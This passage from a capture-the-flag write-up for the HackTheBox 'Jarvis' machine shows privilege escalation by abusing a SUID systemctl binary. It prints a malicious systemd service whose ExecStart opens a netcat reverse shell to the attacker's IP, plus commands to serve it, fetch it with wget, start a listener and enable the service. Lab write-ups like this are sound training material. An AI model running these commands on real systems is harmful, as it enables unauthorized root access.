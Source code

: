 
The `systemctl` command typically doens't have a SUID bit set on it. If we list the permissions to the file we see the following:

![perms-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/perms-29.png)


We can see our user's group is defined for this binary, and only users in that group and root can execute this binary. 


If we check [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid) we can see a possible escalation path. They propose making a service and adding a reverse shell as the `ExecStart` field. 


I created the `htb.service` file in my attack machine and it looks like this:

```bash
[Service]
Type=oneshot
ExecStart=/bin/bash -c "nc -e /bin/bash 10.10.14.34 8888"
[Install]
WantedBy=multi-user.target
```

Now I host this file via a python server:

```bash
python3 -m http.server 80
```

And download the file from the target machine using:

```bash
wget http://10.10.14.34/htb.service
```

Next I start my local listener same as before:

```bash
rlwrap nc -lnvp 8888
```


And run `systemctl` to link and enable the service:

```bash
./systemctl link /home/pepper/htb.service
./systemctl enable --now /home/pepper/htb.service
```

This stalls my shell window:

![exec-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/exec-30.png)
